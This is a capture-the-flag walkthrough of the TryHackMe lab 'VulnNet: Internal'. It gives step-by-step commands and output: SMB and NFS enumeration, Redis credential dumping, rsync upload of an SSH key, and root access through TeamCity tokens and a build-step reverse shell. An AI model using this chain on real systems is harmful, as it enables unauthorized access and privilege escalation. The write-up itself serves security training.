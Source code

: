 # [VulnNet: Internal](https://tryhackme.com/room/vulnnetinternal)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Sun Jul 25 08:23:59 2021 as: nmap -vvv -p 111,139,445,873,2049,6379,22,36615,37105,33557,50995,57405 -Pn -sCV -oN nmap 10.10.158.53
Nmap scan report for box.ip (10.10.158.53)
Host is up, received user-set (0.23s latency).
Scanned at 2021-07-25 08:23:59 UTC for 43s

PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDagA3GVO7hKpJpO1Vr6+z3Y9xjoeihZFWXSrBG2MImbpPH6jk+1KyJwQpGmhMEGhGADM1LbmYf3goHku11Ttb0gbXaCt+mw1Ea+K0H00jA0ce2gBqev+PwZz0ysxCLUbYXCSv5Dd1XSa67ITSg7A6h+aRfkEVN2zrbM5xBQiQv6aBgyaAvEHqQ73nZbPdtwoIGkm7VL9DATomofcEykaXo3tmjF2vRTN614H0PpfZBteRpHoJI4uzjwXeGVOU/VZcl7EMBd/MRHdspvULJXiI476ID/ZoQLT2zQf5Q2vqI3ulMj5CB29ryxq58TVGSz/sFv1ZBPbfOl9OvuBM5BTBV
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNM0XfxK0hrF7d4C5DCyQGK3ml9U0y3Nhcvm6N9R+qv2iKW21CNEFjYf+ZEEi7lInOU9uP2A0HZG35kEVmuideE=
|   256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJPRO3XCBfxEo0XhViW8m/V+IlTWehTvWOyMDOWNJj+i
111/tcp   open  rpcbind     syn-ack 2-4 (RPC #100000)
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp   open  rsync       syn-ack (protocol version 31)
2049/tcp  open  nfs         syn-ack 3-4 (RPC #100003)
6379/tcp  open  redis       syn-ack Redis key-value store
33557/tcp open  mountd      syn-ack 1-3 (RPC #100005)
36615/tcp open  rpcbind     syn-ack
37105/tcp open  unknown     syn-ack
50995/tcp open  mountd      syn-ack 1-3 (RPC #100005)
57405/tcp open  mountd      syn-ack 1-3 (RPC #100005)
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -41m07s, deviation: 1h09m15s, median: -1m08s
| nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNNET-INTERNA<00>  Flags: <unique><active>
|   VULNNET-INTERNA<03>  Flags: <unique><active>
|   VULNNET-INTERNA<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 16682/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29421/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 41896/udp): CLEAN (Timeout)
|   Check 4 (port 35485/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-07-25T10:23:19+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-25T08:23:19
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 25 08:24:42 2021 -- 1 IP address (1 host up) scanned in 43.12 seconds
```

Service of interest here are SSH, SMB, rsync, NFS, and redis.

## SMB

```sh
$ smbclient -L //box.ip/ -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	shares          Disk      VulnNet Business Shares
	IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Here we have a single share named "shares" so we check it out.

```
$ smbclient //box.ip/shares/ -N

smb: \> ls
  .                                   D        0  Tue Feb  2 09:20:09 2021
  ..                                  D        0  Tue Feb  2 09:28:11 2021
  temp                                D        0  Sat Feb  6 11:45:10 2021
  data                                D        0  Tue Feb  2 09:27:33 2021

		11309648 blocks of size 1024. 3275820 blocks available

smb: \>  cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 11:45:10 2021
  ..                                  D        0  Tue Feb  2 09:20:09 2021
  services.txt                        N       38  Sat Feb  6 11:45:09 2021

		11309648 blocks of size 1024. 3275820 blocks available
smb: \temp\> more services.txt
THM{REDACTED}
```

With this, we have our services flag.

## NFS

To start, we list the shares available for mounting.

```sh
$ showmount -e box.ip
Export list for box.ip:
/opt/conf *
```

We can then mount the listed share

```sh
$ sudo mount -t nfs box.ip:/opt/conf ./mnt
```
 Enumerating the mounted share, we have the file `/redix/redix.conf`, inside which is a password

```sh
$ cat redis.conf | grep pass

requirepass "REDACTED"
```

## Redis

Using the found password, we can log into redis with `redis-cli`

```
$ redis-cli -h box.ip -a "REDACTED"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
box.ip:6379> keys *
1) "authlist"
2) "tmp"
3) "int"
4) "marketlist"
5) "internal flag"

box.ip:6379> get "internal flag"
"THM{****}"

box.ip:6379> lrange authlist 1 10
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

Besides the internal flag, we have a base64-encoded string it `authlist` which when decoded gives us credentials for rsync.

```sh
$ echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password ****
```

## rsync

We can list all the files available from rsync.

```sh
$ rsync -av --list-only rsync://rsync-connect@box.ip/
files          	Necessary home interaction

$ rsync -av --list-only rsync://rsync-connect@box.ip/files
[snip]
drwxrwxr-x          4,096 2021/02/06 11:43:14 sys-internal/.ssh
```

Since we have what looks like a home directory with `.ssh`, we can upload our own SSH to the machine and SSH in.

```sh
$ ssh-keygen
$ chmod 600 test
$ mv test.pub authorized_keys
$ rsync -av authorized_keys rsync://rsync-connect@box.ip/files/sys-internal/.ssh
$ ssh -i test sys-internal@box.ip
```

## Privilege Escalation

Looking at `/`, we see the out-of-place directory "TeamCity".

```sh
sys-internal@vulnnet-internal:~$ ls /
bin   etc         initrd.img.old  lost+found  opt   run   swapfile  tmp  vmlinuz
boot  home        lib             media       proc  sbin  sys       usr  vmlinuz.old
dev   initrd.img  lib64           mnt         root  srv   TeamCity  var
```

According to the file `TeamCity-readme.txt`, this service should be running on port 8111, so let's port-forward our machine to it.

```sh
ssh -i test -NT -L 8111:127.0.0.1:8111 sys-internal@box.ip
```

Upon navigating to `localhost:8111`, we're greeted with a login page. Since we have a shell on the machine, let's look for credentials before we do any brute-forcing.

We can find some access tokens in the logs

```sh
sys-internal@vulnnet-internal:/TeamCity/logs$ grep -F '[TeamCity]' catalina.out
[TeamCity] Super user authentication token: 844662****** (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 844662****** (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 378256****** (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 581262****** (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 193564****** (use empty username with the token as the password to access the server)
```

Using one of the found tokens, we're able to log in to TeamCity which is runnning as root (super user). To get a shell, we do the following:

1. Create project
1. Go to Build Configurations
1. Go to Build steps and Add build step to run a command of your choice
1. Save and run

If your command of choice was a reverse shell, you should now have a root shell.
